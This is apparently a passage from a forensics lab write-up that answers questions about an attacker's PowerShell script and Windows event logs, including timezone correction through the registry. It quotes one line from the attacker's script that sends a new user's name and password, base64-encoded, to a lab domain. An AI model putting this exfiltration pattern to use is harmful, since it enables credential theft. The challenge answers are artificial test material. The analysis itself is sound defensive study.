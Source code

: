 **Answer:** svc_netupd
### Question 8

> What domain name did the attacker use for credential exfiltration? (domain)

Based on `JM.ps1`, the script exfiltrates to 
```
http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))
```

**Answer:** NapoleonsBlackPearl.htb
### Question 9
>  What password did the attacker's script generate for the newly created user? (string)

We know that it is `Watson_$timestamp`, based on the above event we know user `svc_netupd` was added on `2025-08-24T23:05:09.7646587Z`, so the answer is `Watson_20250824230509` right? Well not really because the event logs time is based on the system timezone and `$timestamp` value is in UTC.

To know what timezone is the system in, we need to inspect `HKLM\SYSTEM\CurrentControlSet\Control\TimeZoneInformation` registry value, which is at `C:\Windows\System32\config\SYSTEM`. You can open that registry with *Registry Explorer* and browse for that key, or alternatively you can use *RegRipper*:

![image](./assests/6.png)

The system's timezone is UTC +7.

**Answer:** Watson_20250824160509

### Question 10
> What was the IP address of the internal system the attacker pivoted to? (IPv4 address)

Keep browsing **4688** events around `2025-08-24T23:05:09.7646587Z` will lead you to this event. 
